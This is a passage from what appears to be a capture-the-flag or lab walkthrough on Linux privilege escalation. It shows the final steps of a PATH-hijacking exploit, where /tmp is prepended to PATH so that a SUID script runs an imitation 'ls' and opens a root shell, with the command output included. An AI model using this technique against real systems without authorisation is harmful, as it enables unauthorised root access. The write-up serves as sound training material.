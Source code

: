 **Instructions**

Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH"

Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is.

Once you've finished the exploit, you can exit out of root and use "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" to reset the PATH variable back to default, letting you use "ls" again!

**Answer**

Now, add /tmp to the `PATH` envrionment variable:

~~~
$ export PATH=/tmp:$PATH
~~~

## #9.7 - Now, change directory back to user5's home directory.

Go back to your `home`:

~~~
user5@polobox:/tmp$ cd
~~~

## #9.8 - Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!

And run the program once more. We now have a shell as root:

~~~
user5@polobox:~$ ./script 
Welcome to Linux Lite 4.4 user5
 
Friday 15 May 2020, 02:29:56
Memory Usage: 334/983MB (33.98%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# whoami
root
root@polobox:~# 
~~~

# [Task 10] Expanding Your Knowledge

**Further Learning**

There is never a "magic" answer in the huge area that is Linux Privilege Escalation. This is simply a few examples of basic things to watch out for when trying to escalate privileges.The only way to get better at it, is to practice and build up experience. Checklists are a good way to make sure you haven't missed anything during your enumeration stage, and also to provide you with a resource to check how to do things if you forget exactly what commands to use.
